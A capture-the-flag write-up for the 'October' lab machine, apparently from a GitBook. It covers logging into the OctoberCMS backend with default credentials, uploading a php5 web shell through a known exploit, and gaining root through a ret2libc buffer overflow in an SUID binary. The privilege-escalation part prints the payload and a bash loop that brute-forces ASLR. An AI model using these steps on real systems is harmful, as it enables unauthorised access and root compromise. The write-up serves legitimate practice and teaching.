 # October

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

We don't need to add anything into the hosts file.

### OctoberCMS

The website was running OctoberCMS and appears to have a default look:

<figure><img src="../../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption></figcaption></figure>

Registering an account and trying to do stuff with it was useless and had no functionalities. So instead, we can abuse the fact that OctoberCMS is an open-source project. A quick Google search reveals that the backend of this is at `/backend`:

{% embed url="https://octobercms.com/forum/post/how-do-i-access-the-backend" %}

<figure><img src="../../../.gitbook/assets/image (40) (3).png" alt=""><figcaption></figcaption></figure>

We can use the default credentials of `admin:admin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (2) (2).png" alt=""><figcaption></figcaption></figure>

OctoberCMS has quite a few exploits:

{% embed url="https://www.exploit-db.com/exploits/41936" %}

We can use one of them to upload a `cmd.php5` file to execute on the server, as `php5` is not blocked on the server:

<figure><img src="../../../.gitbook/assets/image (6) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can confirm we have RCE via `curl`.

<figure><img src="../../../.gitbook/assets/image (37) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

Getting a reverse shell is then trivial.

## Privilege Escalation

### Ret2Libc

I ran a LinPEAS scan on the machine, and found this weird SUID binary called `overflw`:

<figure><img src="../../../.gitbook/assets/image (35) (4).png" alt=""><figcaption></figcaption></figure>

I opened it up in Ghidra to view what it does:

<figure><img src="../../../.gitbook/assets/image (27) (1) (4).png" alt=""><figcaption></figcaption></figure>

It appears we have a classic BOF expliot to do here. The `strcpy` function is vulnerable, and the buffer is pretty short. Doing a `checksec` reveals that NX is enabled but PIE is disabled:

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

In this case, we can go for a Ret2Libc attack. First, we find the buffer size:

<figure><img src="../../../.gitbook/assets/image (38) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

Fixed at 112 it appears (same as length of `local_74`). Now, we can use `ldd` to find the address where `libc` is loaded on the machine:

<figure><img src="../../../.gitbook/assets/image (42) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can simply execute the following commands to get the addresses we need

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
strings -a -t x /lib/i386-linux-gnu/libc-2.27.so | grep "/bin/sh"
```

Afterwards, we can use a python one-liner to print the contents of the payload:

{% code overflow="wrap" %}
```python
python2 -c 'print"\x90" * 112 + "\x10\x83\x62\xb7" + "\x60\xb2\x61\xb7" + "\xac\xab\x74\xb7"'
```
{% endcode %}

When run however, it didn't work on the machine. Turns out, the machine itself already had ASLR enabled, and this can be verified in `/proc/sys/kernel/randomize_va_space`. Also, when checking the addresses, it seems to randomly shift each time.

In this case, we can check the **range of addresses which ASLR spans**. In this case, the range of addreses looks rather small since `libc` is loaded at roughly the same location:

```
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc  
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b1000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb763b000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7606000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7626000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7591000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7624000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7558000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7567000)
```

So, we can set up a `bash` script to keep looping until we get a successful exploit.&#x20;

{% code overflow="wrap" %}
```bash
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (39) (1) (4).png" alt=""><figcaption></figcaption></figure>

Rooted!
